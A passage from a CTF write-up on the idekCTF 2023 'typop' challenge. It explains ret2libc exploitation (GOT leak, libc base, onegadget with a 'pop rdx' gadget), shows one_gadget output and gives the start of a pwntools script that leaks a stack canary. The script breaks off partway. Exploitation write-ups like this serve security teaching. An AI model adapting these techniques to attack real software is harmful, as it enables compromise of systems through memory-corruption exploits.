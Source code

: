 ## Solving with ret2libc:

During the actual competition, I did not bother to properly reverse engineer the win function, and instead opted to use ret2libc to pop a shell for the challenge. This is an extremely useful ROP technique that I explain in more detail over here: https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/space_heroes_22/Rule%20of%20Two. Basically, the idea is to use one of the existing functions to print content to the terminal, such as puts or printf, to print off the memory at a GOT entry for a function that's been used in the binary at least once already (assuming Partial RELRO, otherwise any GOT entry works). GOT entries point to the location of those functions in libc, so that can be used to derive the libc base. Then you can just re-run the function to do another ROPchain using gadgets within libc,  which can include things like the execve function, a '/bin/sh' string, and even onegadgets, which are offsets in a libc that will pop a shell with minimal setup if certain conditions are met.

In my solution, once I had my libc leak, I decided to use a onegadget to keep my final ROPchain relatively short and simple. I didn't have any where all of the conditions where met when the ROPchain is executed (just make a breakpoint at the ret with your debugger and check the contents of each register mentioned in the constraints, only r15 is null at that point), so I also found a "pop rdx" gadget in the libc and used it to null out that register before calling the onegadget.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments$ one_gadget libc-2.31.so
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Here is a final working script to get a shell with ret2libc:
```
from pwn import *

target = process('./chall')

pid = gdb.attach(target, 'b *getFeedback+70\nb *getFeedback+172\nb *getFeedback+199\ncontinue')

elf = ELF('chall')
libc = ELF('libc-2.31.so')
#target = remote('typop.chal.idek.team', 1337)

print(target.recvuntil(b'complete a survey?'))

target.sendline(b'y')
print(target.recvuntil(b'ctf?'))
payload1 = b'a' * 11
target.send(payload1)

print(target.recvuntil(payload1))

leak = target.recv(7)
canary = u64(b'\x00' + leak)
print(hex(canary))

payload2 = cyclic(100)
padding = b'a' * 10
```